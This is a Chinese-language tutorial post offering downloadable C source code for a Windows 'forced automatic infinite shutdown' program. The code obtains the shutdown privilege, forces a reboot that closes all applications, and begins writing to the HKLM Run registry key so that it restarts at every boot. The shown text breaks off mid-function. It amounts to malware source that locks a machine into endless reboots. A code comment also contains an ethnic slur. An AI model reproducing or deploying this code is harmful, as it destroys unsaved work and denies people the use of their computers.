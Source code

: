 


最新教程更新：2015-08-14_强制自动无限关机
链接：http://pan.baidu.com/s/1qWIGovq 密码：w9rv
附源代码：
// 择善教育 版权所有
#include <windows.h>
BOOL MySystemShutdown() {
HANDLE hToken;
TOKEN_PRIVILEGES tkp;

// Get a token for this process.

if (!OpenProcessToken(GetCurrentProcess(),
TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken))
return(FALSE);

// Get the LUID for the shutdown privilege.

LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME,
&tkp.Privileges[0].Luid);

tkp.PrivilegeCount = 1; // one privilege to set
tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

// Get the shutdown privilege for this process.

AdjustTokenPrivileges(hToken, FALSE, &tkp, 0,
(PTOKEN_PRIVILEGES)NULL, 0);

if (GetLastError() != ERROR_SUCCESS)
return FALSE;

// Shut down the system and force all applications to close.

if (!ExitWindowsEx(EWX_REBOOT | EWX_FORCE,
SHTDN_REASON_MAJOR_OPERATINGSYSTEM |
SHTDN_REASON_MINOR_UPGRADE |
SHTDN_REASON_FLAG_PLANNED))
return FALSE;

//shutdown was successful
// 印度阿三
return TRUE;
}

int _tmain(int argc, _TCHAR* argv[])
{
//帮助文档 说明书
//ExitWindowsEx(EWX_REBOOT, 0);
// 配置文件
//system("pause");//这句话去掉 就能够不用按也重启

HKEY hKey = { 0 }; //代表我们注册表修改位置的句柄
RegOpenKeyEx(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0, KEY_WRITE, &hKey);

char sz_path_c[MAXBYTE] = { 0 };
